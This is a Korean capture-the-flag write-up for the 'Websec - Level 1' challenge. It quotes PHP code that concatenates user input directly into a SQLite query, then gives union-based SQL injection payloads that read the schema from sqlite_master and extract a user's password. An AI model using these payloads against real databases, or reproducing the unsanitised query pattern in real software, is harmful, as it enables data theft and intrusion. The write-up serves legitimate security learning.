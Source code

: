 ```yaml
---
title : "Websec - Level 1"
excerpt : "Websec - Level 1"
toc : true
toc_sticky : true
categories :
  - Websec
tags :
  - sql injection
---
```

## 1. Source code
코드에서 필요한 부분만 뽑았다.

```php
$userDetails = $lo->doQuery ($_POST['user_id']); # 입력한 값을 doQuery 객체에 보내고 리턴값을 userDetails 변수에 저장함.
# doQuery 객체 코드
$query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; # injection 변수는 매개변수임. 
```

db는 sqlite3버젼이다.  
sqlite에서  MySQL의 information_schema와 같은 역할을 하는 테이블은 sqlite_master이다.  컬럼으로는 몇개가 있었는데 필요한 컬럼은 sql컬럼이다.
sql컬럼에는 테이블 정보가 들어가있다. 

## 2. Vulnerability

SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1 이 부분에서 터진다. union을 이용한 기초적인 sql injection 문제다. 

## 3. Solution

입력를 ```1 union select 1,sql from sqlite_master -- ```라고 하면  
``` username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255)) ``` 이런식으로 테이블 정보가 출력된다. 
따라서 다시 입력값으로 ```1 union select 1,password from users where id=1 -- ```을 주면 플래그가 나온다.
